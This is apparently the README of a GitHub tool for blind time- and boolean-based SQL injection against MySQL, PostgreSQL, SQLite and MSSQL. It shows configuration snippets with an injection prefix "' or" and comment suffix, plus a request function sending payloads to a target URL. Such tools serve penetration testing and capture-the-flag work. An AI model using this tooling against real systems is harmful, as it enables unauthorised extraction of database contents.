 # MySQLi
**Time** and **Boolean** based SQLi for **MySQL**,  **PostgreSQL**, **SQLite** and **MSSQL**  

![screenshot](https://github.com/physics-sp/MySQLi/blob/main/demo.png?raw=true)

## Features
- It allows you to have more control over the attack. You can handle logouts, CSRF tokens, and other tricky scenarios in which [sqlmap](https://github.com/sqlmapproject/sqlmap) doesn't work.
- It uses Binary search to increase speed
- Supports multiple types of databases _(MSSQL only supports Boolean based)_

## Usage
Set the database and SQLi type, the strings that go before and after the query and the sleep time if Time based if being used
```python
database = DBType.PostgreSQL
sqlitype = SQLiType.Boolean
PRE = "' or"
POST = '-- -'
sleep_time = 2
```
Re-define the `send_req` function.
```python
def send_req(payload):
    # print(payload)
    params = {'pwn': payload}
    cookies = {}
    proxies = {}
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    url = 'http://10.10.10.10/index.php'
    r = requests.get(url,
                     params=params,
                     verify=False,
                     proxies=proxies,
                     allow_redirects=False,
                     cookies=cookies)
    return r
```

## TODO
- Add Time based to MSSQL
- Add more DBs
